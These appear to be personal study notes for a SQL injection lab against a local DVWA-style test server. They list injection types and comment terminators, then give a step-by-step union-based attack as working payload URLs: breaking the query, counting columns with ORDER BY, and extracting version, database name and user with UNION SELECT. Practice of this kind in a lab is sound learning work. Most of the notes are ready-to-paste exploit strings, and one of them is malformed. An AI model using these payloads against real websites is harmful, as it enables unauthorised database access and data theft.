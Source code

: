 2.Error Base
Single Query
Double Query

3.Blind Base
Boolean Base
Time Base

4.OOB ==> Out of Band


http://192.168.0.111/testme/vulnerabilities/sqli/?id=1'--+&Submit=Submit


--------   	SQL Comments	---------------------------------------------------
--+
-- -
--+-
#
/*
%23
%60
`    
--------   	SQL Comments	---------------------------------------------------

Step 1 ==> //Fix error with comments
//To Know sql injection vulnerable
'
"
\
`
-----------------------------------------------------------------------
Step 2 ==> Find the column count ( order by or group by)
http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' order by 2--+&Submit=Submit  ==> col count 2


Step 3 ==> Find the Vulnerable Column ( Union Select ) ==> exploite column will show the number
http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' UNION SELECT 1,2--+&Submit=Submit

http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' UNION SELECT version(),2--+&Submit=Submit
http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' UNION SELECT version(),database()--+&Submit=Submit

http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' UNION SELECT @@version(),@@database()--+&Submit=Submit	
http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' UNION SELECT USER(),database()--+&Submit=Submit



//use concat to select from one column
http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' UNION SELECT USER(),CONCAT(version(), '==>', database() ) --+&Submit=Submit



Hash Killer
